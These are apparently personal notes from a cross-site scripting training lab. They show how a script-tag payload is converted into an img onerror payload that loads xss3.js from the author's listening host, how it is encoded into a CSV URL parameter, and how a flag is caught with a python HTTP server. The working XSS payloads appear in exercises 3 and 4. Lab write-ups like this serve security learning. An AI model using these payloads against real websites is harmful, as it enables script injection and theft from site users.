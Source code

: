 ###### 3
![[Pasted image 20240802141940.png]]
the script doesn't work straight up because of the `innerHTML` method
![[Pasted image 20240802103813.png]]
Utilizing `Firefox` to analyze the network packets in `list.js` shows that `innerHTML` is implemented
![[Pasted image 20240802105055.png]]
this means that we have to translate the original script to an `img` utilizing `onerror` to allow it to work.

Original Script:
```html
<script src="http://192.168.45.223:80/xss3.js"></script>
```
Modified Script (Working) Had to ensure that the `"` were changed to `'` before the script worked
```html
<img src="x" onerror="this.onerror=null;document.write('<script src=\'http://192.168.45.223:80/xss3.js\'></script>');" />
```

Once submitted, the screen goes blank
![[Pasted image 20240802134805.png]]
If you check the `python3 http.server 80` we can see a hit
![[Pasted image 20240802135643.png]]
In order to get it to work, you ave to bat the race condition and get the csv encoding
![[Pasted image 20240802140754.png]]
```
?csv=IyxVc2VyLGFjdGl2ZQo8aW1nIHNyYz0ieCIgb25lcnJvcj0idGhpcy5vbmVycm9yPW51bGw7ZG9jdW1lbnQud3JpdGUoJzxzY3JpcHQgc3JjPVwnaHR0cDovLzE5Mi4xNjguNDUuMjIzOjgwL3hzczMuanNcJz48L3NjcmlwdD4nKTsiIC8%2BLFNhbWFudGhhLDEK
```
Now once you insert the `csv` string into the url and render a flag will come back in the `python3 http.server` 
- If you see the `loading page` means that it probably worked.
![[Pasted image 20240802141138.png]]
Checking the `python3 server`
![[Pasted image 20240802141451.png]]
And decode
![[Pasted image 20240802141803.png]]
`OS{a5014a1243addd902fe8da8f7c582811}`

###### 4
![[Pasted image 20240802143455.png]]
Working Payload
```html
<img src="x" onerror="this.onerror=null;document.write('<script src=\'http://192.168.45.223:80/xss3.js\'></script>');" />
```
Submit the payload in here (diffidult to show because the screen changes quickly)
![[Pasted image 20240802142939.png]]
Once the payload is submitted, render and profit
![[Pasted image 20240802142659.png]]
Open `python3 -m http.server` and see the flag
![[Pasted image 20240802143149.png]]
Decode 
![[Pasted image 20240802143335.png]]
